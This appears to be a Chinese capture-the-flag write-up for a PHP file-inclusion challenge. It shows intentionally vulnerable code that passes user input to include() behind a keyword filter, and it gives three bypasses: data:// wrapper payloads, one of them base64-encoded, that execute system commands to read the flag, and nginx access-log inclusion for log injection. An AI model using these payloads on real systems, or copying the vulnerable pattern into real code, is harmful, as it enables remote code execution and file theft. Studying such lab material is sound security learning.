




```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:23:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

flag

php

file


## 第一种

依旧利用data伪协议

同时*匹配字符串

```
?c=data://text/plain,<?= system("cat f*");?>
```



有一点要注意的是

由于过滤了php

因此php代码头不能写为<?php

但是可以写为<?=

等效于<?php


## 第二种

base64加密php代码

```
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
```






## 第三种

日志注入

```
?c=/var/log/nginx/access.log
```



可以读取日志文件，也就是可以尝试日志注入